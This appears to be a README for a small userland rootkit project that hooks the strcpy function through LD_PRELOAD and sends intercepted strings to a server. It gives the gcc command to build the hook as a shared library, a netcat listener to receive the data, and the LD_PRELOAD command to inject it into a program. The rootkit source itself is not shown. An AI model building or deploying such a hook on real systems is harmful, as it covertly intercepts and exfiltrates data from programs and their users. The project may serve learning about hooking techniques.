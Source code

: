 # Description
This is a simple userland rootkit that simple hooks the strcpy function and tries to send it to a server.

## Compilation

Compile rootkit:
```
gcc -shared -fPIC Rootkit.c -o Rootkit.so -ldl
```

Compile test program:
```
gcc main.c
```

## Running

Simple netcat server for testing:
```
nc -l -p 8080
```

Then simply run the following command to use rootkit:
```
LD_PRELOAD=./Rootkit.so ./a.out
```